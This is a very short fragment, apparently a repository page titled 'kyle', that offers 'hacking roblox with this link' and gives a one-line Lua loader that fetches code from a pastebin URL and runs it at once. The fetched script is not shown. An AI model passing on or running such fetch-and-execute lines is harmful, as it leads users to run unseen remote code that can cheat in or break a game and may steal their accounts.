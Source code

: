 # kyle
hacking roblox with this link loadstring(game:HttpGet("https://pastebin.com/raw/u61dJDq7",true))()

